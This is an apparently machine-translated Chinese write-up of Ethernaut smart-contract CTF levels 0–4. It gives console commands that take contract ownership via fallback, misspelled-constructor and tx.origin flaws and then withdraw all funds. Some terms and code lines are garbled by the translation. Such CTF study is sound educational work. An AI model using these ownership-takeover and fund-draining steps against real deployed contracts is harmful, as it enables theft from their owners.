

# 区块链——黑掉与以太 CTF 的智能合约(上)

> 原文：<https://infosecwriteups.com/blockchain-hacking-smart-contract-with-ethernaut-ctf-part-1-cb439d6c34fe?source=collection_archive---------0----------------------->



近年来，区块链及其应用已经成为未来的技术趋势。应用区块链，我们可以解决很多当前技术无法解决的问题，其中最突出的是没有交易中介，不再需要信任第三方。这使得事情变得更简单、更方便、更透明、更值得信赖。

然而，区块链不仅充满优势，而且它仍然是一项非常“新”的技术，需要更多的时间来完成。可以提到一些基本的缺点，例如交易确认速度慢，小额交易的成本高。另一件事是用户体验——普通用户仍然没有准备好区块链的概念，对这项技术的信任仍然需要大量的证明。

有一样东西被认为是完美的“关键”:安全。对于任何产品，无论大小，一次安全事故都可能导致系统崩溃。区块链也是，它并不完美，存在隐藏的安全缺陷，无论是在区块链架构中，还是在这个平台上应用程序的代码中。

在本文中，我们将通过 Zeppelin 的 CTF 游戏来了解以太坊平台上智能合约的一些安全缺陷，Zeppelin 是当今在构建智能合约解决方案方面非常著名的公司。这个 CTF 叫做 ether naut——主要内容是黑客智能合约。

可以在这里加入玩:[https://ether naut . zeppelin . solutions](https://ethernaut.zeppelin.solutions)

一些建议:

*   最好有区块链和智能合约方面的知识
*   如果有 Solidity 和 Web3js 的知识就更好了
*   如果你知道如何使用混合 IDE 或松露就更好了

# 齐柏林飞船

CTF 将包括所有 12 首曲目，在 Ropsten 网络上播放。您需要准备一些东西(这些设置很简单，所以您可以自己搜索和安装):

*   安装元掩码
*   在 Ropsten Testnet 上创建一个帐户，然后去[https://faucet.metamask.io/](https://faucet.metamask.io/)拿些乙醚。
*   打开 Chrome 控制台
*   打开混音 IDE[https://remix.ethereum.org](https://remix.ethereum.org)

在每篇文章中，我们会得到一个实例，实例地址在开始时会返回到控制台上。我们将通过控制台(easy post)或 Remix IDE(稍微有点困难&需要代码)与契约实例进行交互

# 0.你好，以太人

这是一个快速教程，很简单，主要是让我们测试内置函数。好了，我们走吧！

**解决方案** 我们不知道该怎么做但是第 9 步有提示。我们将从 Chrome 控制台上的`contract.info()`开始

```
await contract.info()
"You will find what you need in info1()."
```

发出清除指令，执行功能`info1`

```
await contract.info1()
"Try info2(), but with "hello" as a parameter."
```

继续`info2`

```
await contract.info2("hello")
"The property infoNum holds the number of the next info method to call."await contract.infoNum()
t {s: 1, e: 1, c: Array(1)}
c: [42]
e: 1
s: 1
__proto__: Object
```

这是一个很大的数字，我们不需要知道它的用途，但是我们知道下一个被调用的函数将是`info42`。

```
await contract.info42()
"theMethodName is the name of the next method."await contract.theMethodName()
"The method name is method7123949."await contract.method7123949()
"If you know the password, submit it to authenticate()."
```

也就是说，要完成这篇文章，我们需要提交带有参数`password`的`authenticate`函数。调用`password`函数获取密码。

```
await contract.password()
"ethernaut0"contract.authenticate("ethernaut0")
```

# 1.撤退

目标:

*   占用所有者
*   从合同中提取所有的钱

后备解决方案

*   在这节课中，我们将学习`fallback`函数。这是智能合约中的一个特殊函数，它没有函数名，在以下情况下使用:合约收到以太网，或有人调用合约中没有的函数或参数不正确。
*   这里有个小技巧:fallback 不是回退函数(即使函数的名字是 Fallback)，但是`function() payable public`是回退函数。从那里我们有了下面的方法:首先调用值小于 0.001 的函数 contribute()来成为贡献者

```
await contract.contribute({value:toWei(0.0001)})
```

检查你是否已经成为一个贡献者。如果结果> 0，那么你就成了贡献者

```
await contract.getContribution().then(x => x.toNumber())
```

然后发送以太到合同激活回退，然后我们将成为所有者

```
contract.send(1)
```

检查所有者

```
await contract.owner()
```

然后取出所有的钱

```
contract.withdraw()
```

# 2.余波

**目标**

*   占用所有者

**解决方案**

只需运行 **Fal1out** 函数，请注意，该契约故意将字母 l 拼错为数字，因此它不是构造函数，而只是一个常规函数，其任务是授权所有者。

```
contract.Fal1out()
```

检查它是否已成为所有者

```
await contract.owner()
```

提交并完成！

# 3.抛硬币

这是一个抛硬币的问题，我们的任务是猜脸或连续 10 次面朝上。

**解答** 首先断言，在红黑相间的情况下，连续猜对 10 次几乎是不可能的。
认识到函数 flip()有面朝下的计算然后提交结果，无法知道计算结果是什么来干扰提交过程。然而，这表明我们可以编写另一个契约，将该函数分成两半，一个函数计算，一个函数提交结果。
该编码了，我们会用 Remix IDE 代替 Chrome 控制台。我们将如下编写另一个契约攻击，记住或者用你的实例的地址替换目标变量:

编译此合同并在 Remix 上手动运行该功能翻转 10 次，记住将气限和气价设置得稍高一些，以避免断气并更快地确认交易。

在 chrome 控制台上，仔细检查猜对的次数，10 次就可以了

```
await contract.consecutiveWins().then(x => x.toNumber())
```

# 4.电话

任务:获得所有权

**解决方案**

*   你要明白 tx.origin 不同于 msg.sender。
*   如果从契约 A 调用函数，在调用契约 B 的函数的函数中，那么 tx.origin 是你的地址，msg.sender 是契约 A 的地址。
*   坏人可以用这个来攻击一个契约，用另一个契约来攻击。
*   在本文中，我们将编写另一个契约攻击，如下所示:

编译此合同并在 Remix 上运行 claimOwnership，所有者将属于您。
在 chrome 控制台上，再次检查合同所有者

```
await contract.owner()
```

提交&全部完成！

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)